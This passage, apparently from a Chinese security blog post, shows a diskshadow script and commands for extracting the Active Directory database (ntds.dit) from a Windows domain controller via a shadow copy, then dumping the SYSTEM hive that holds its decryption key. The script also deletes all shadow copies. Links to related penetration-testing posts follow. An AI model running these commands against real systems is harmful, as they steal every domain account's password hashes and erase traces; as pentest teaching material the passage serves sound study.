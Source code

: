     //分配虚拟磁盘盘符  
      
    expose %someAlias% z:  
      
    //将ntds.dit复制到C盘中  
      
    exec "cmd.exe" /c copy z:\\windows\\ntds\\ntds.dit c:\\ntds.dit  
      
    //删除所有快照  
      
    delete shadows all  
      
    //列出系统中的卷影拷贝  
      
    list shadows all  
      
    //退出  
      
    reset  
      
    exit  
    

执行如下命令，注意这里需要进入C:\Windows\System32目录下执行，否则会报错

    
    
    diskshadow /s C:\\command.txt

![](https://gitee.com/fuli009/images/raw/master/public/20220419115523.png)

导出ntds.dit后，可以将system.hive转储。因为system.hive中存放着ntds.dit
的密钥，所以没有该密钥，将无法查看ntds.dit中的信息

    
    
    reg save hklm\\system c:\\windows\\temp\\system.hive

  

往期推荐

[

如何自己实现一个Psexec

](https://mp.weixin.qq.com/s?__biz=Mzg2NDY2MTQ1OQ==&mid=2247484970&idx=1&sn=48820c92bde98d5283dd93bd4f665373&chksm=ce64bc96f9133580ce7c9a1d37a6c615e5ddc1a970560d28bb0865e8201d8253e70bab4d09d7&scene=21#wechat_redirect)[

java安全之dnsurl探究

](https://mp.weixin.qq.com/s?__biz=Mzg2NDY2MTQ1OQ==&mid=2247484884&idx=1&sn=18d9d008edc94a38d47ccfcd797325a9&chksm=ce64bf68f913367eaba70e3ce72302dc0c767401804cf4c040c63f7379ffde08e90d8243efb6&scene=21#wechat_redirect)[

记一次略坑靶场渗透(下)

](https://mp.weixin.qq.com/s?__biz=Mzg2NDY2MTQ1OQ==&mid=2247484850&idx=1&sn=096c38f5b760710f3ef9684305a47688&chksm=ce64bf0ef91336189b79645291ccff8c50088c9e3cc788e3f19eb905c2101cf0d449f8df775e&scene=21#wechat_redirect)[

一次略坑靶场渗透（上）

](https://mp.weixin.qq.com/s?__biz=Mzg2NDY2MTQ1OQ==&mid=2247484794&idx=1&sn=454f1485a34d4d331974bee5326d4946&chksm=ce64bfc6f91336d0dababa4ff28824ce92769bf4b0c5a499a1b0caff29f2c62ce1e2176c71e7&scene=21#wechat_redirect)[

